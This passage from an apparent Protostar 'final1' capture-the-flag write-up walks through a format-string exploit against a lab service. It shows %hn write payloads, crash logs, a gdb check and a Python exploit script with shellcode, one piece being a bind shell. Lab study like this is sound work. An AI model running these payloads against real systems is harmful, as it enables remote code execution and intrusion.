 ```lang-bash line-numbers 
s.send("username " + "\x90"*16 + shellcode + "\n")
s.send("login " + "XXX" + "\x94\xa1\x04\x08" + "%49$hn" + "\n")
```

and we get

```lang-bash line-numbers 
Dec 23 04:17:23 protostar kernel: [391988.195374] final1[23042]: segfault at 80400ac ip 080400ac sp bffffc2c error 4 in final1[8048000+2000]
```

We can see that our "00ac" is now only written in the two last bytes leaving the first two "0804" untouched. Now instead of "00ac" we need to write "a220" to point to the "username" address. So we need to write the decimal value: 41504

a220-00ac(already written) = a174 = 41332

```lang-bash line-numbers 
s.send("username " + "\x90"*16 + shellcode + "\n")
s.send("login " + "XXX" + "\x94\xa1\x04\x08" + "%41332d" + "%49$hn" + "\n")
```

Damn it! it crashes!

```lang-bash line-numbers 
Dec 23 04:41:58 protostar kernel: [393462.998619] final1[23234]: segfault at f9b452c1 ip 0804a277 sp bffffc14 error 4 in final1[804a000+1000]
```

If we check it with gdb:

```lang-bash line-numbers 
root@protostar:~# gdb -q -c /tmp/core.11.final1.23234
Core was generated by `/opt/protostar/bin/final1'.
Program terminated with signal 11, Segmentation fault.
#0  0x0804a277 in ?? ()
(gdb) x/x 0x0804a194
0x804a194:	0x0804a220
```

WAT??!?!?! so our exploit worked and we jumped to our shellcode but the shellcode crahsed
We pick a different shellcode and adjust the username so it has the same lenght and no format string position changes:

```lang-bash line-numbers 
#!/usr/bin/python

from socket import *
from struct import *

s = socket(AF_INET, SOCK_STREAM)
s.connect(("localhost", 2994))

#http://www.exploit-db.com/exploits/13427/
shellcode = "\xeb\x02\xeb\x05\xe8\xf9\xff\xff\xff\x5f\x81\xef\xdf\xff\xff\xff" \
"\x57\x5e\x29\xc9\x80\xc1\xb8\x8a\x07\x2c\x41\xc0\xe0\x04\x47" \
"\x02\x07\x2c\x41\x88\x06\x46\x47\x49\xe2\xed" \
"DBMAFAEAIJMDFAEAFAIJOBLAGGMNIADBNCFCGGGIBDNCEDGGFDIJOBGKB" \
"AFBFAIJOBLAGGMNIAEAIJEECEAEEDEDLAGGMNIAIDMEAMFCFCEDLAGGMNIA" \
"JDIJNBLADPMNIAEBIAPJADHFPGFCGIGOCPHDGIGICPCPGCGJIJODFCFDIJO" \
"BLAALMNIA"
print len(shellcode);

shellcode2 = "\x31\xdb\xf7\xe3\x53\x43\x53\x6a\x02\x89\xe1\xb0\x66\xcd\x80" \
                "\x5b\x5e\x52\x68\xff\x02\x11\x5c\x6a\x10\x51\x50\x89\xe1\x6a" \
                "\x66\x58\xcd\x80\x89\x41\x04\xb3\x04\xb0\x66\xcd\x80\x43\xb0" \
                "\x66\xcd\x80\x93\x59\x6a\x3f\x58\xcd\x80\x49\x79\xf8\x68\x2f" \
                "\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0" \
                "\x0b\xcd\x80"
print len(shellcode2)
```